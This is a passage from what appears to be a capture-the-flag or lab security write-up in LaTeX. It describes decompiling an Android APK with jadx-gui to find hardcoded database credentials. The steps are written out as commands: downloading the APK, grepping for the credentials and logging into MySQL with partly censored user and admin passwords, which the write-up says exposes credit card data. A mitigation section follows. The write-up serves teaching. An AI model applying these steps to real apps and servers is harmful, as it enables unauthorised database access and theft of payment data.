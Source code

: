   	\subsubsection*{Vulnerability Description}
  		After examining the apk file found on the site, some hidden credentials were found using jadx-gui
        which is readily available for consumer use. These credentials were then used to gain access to a mysql
        service running on the artstailor server.

  	\subsubsection*{Confirmation method}
  	First download the apk file as follows
\begin{verbatim}
wget www.artstailor.com/apps/ArtsTailorNews.apk
\end{verbatim}
    Open the application and jadx-gui and then navigate to the cache created after the application is compiled.
    Once inside the cache, run the following command to get the username and password
\begin{verbatim}
cat sources/00/000000800.java | grep -e 'b64username' -e 'b64password'
\end{verbatim}
    This will reveal the following censored credentials.
\begin{verbatim}
username: db_user_token
password: KEY022-uid...CQ==
\end{verbatim}
    Lastly, we can use these credentials to gain access to the server
\begin{verbatim}
mysql -h db.artstailor.com --port=3306 -u db_user_token -p
KEY022-uid...CQ==
\end{verbatim}
    From previous Exercise 110, we also have some admin credentials as follows
\begin{verbatim}
mysql -h db.artstailor.com --port=3306 -u db_admin_token -p
KEY019-8Dq...e\n
\end{verbatim}
    Using these credentials gives us access to user credit card information. 
    \subsubsection*{Mitigation or Resolution Strategy}
    To mitigate this, we can firstly avoid hardcoding any sort of credentials into the code. You should also try to use 
    secure storage solutions that provide more hardware-backed storage options for keys rather than including them in the code.
    Now that this has been exploited, make sure to also change the credentials for the db{\_}user{\_}token.

